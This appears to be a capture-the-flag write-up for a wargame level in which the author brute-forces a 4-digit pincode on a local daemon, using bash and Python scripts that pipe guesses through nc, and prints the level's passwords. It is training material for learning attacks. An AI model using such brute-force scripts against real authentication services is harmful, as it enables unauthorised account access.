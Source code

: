 Level Goal: "A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing."

I did a simple bash script to bruteforce first, but I found it painfully slow, and I could not find a way to speed it up at first. This was the initial script:

```bash
#!/bin/bash
PASS="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
for i in {0001..9999}; do
    RESPONSE=$(echo $PASS $i | nc localhost 30002)
    echo Checking $i
    if [[ $RESPONSE != *"Wrong"* ]]; then
      echo $RESPONSE
    fi
done
```

Then I tried to do Python, but it seems to disconnect on random timer, as I fiddled with time.sleep for a while and kept getting disconnected, regardless of how slow it was.

```python
import socket
import time

password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for i in range (0, 10000):
        num = "%04d" % (i)
        print num
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('localhost', 30002))
        s.sendall(password + " " + num)
        recv = s.recv(1024)
        if "I am the pincode checker for user bandit25." not in recv:
                print recv
        s.close()
        time.sleep(0.15)

print "Program finished executing."
```

After doing a bit of reading, I found that I could speed up the requests significantly by transmitting every possible combination to the server at once, rather than one request at a time. To do so, I made a file named `dictgen.sh` containing the following script and ran it:
```bash
#!/bin/bash
PASS='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
for i in {0001..9999}; do
	echo $PASS $i >> dict.txt
done
```

Now I just had to pass the dict.txt file to the server via nc like so `cat dict.txt | nc localhost 30002`.

Password: uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
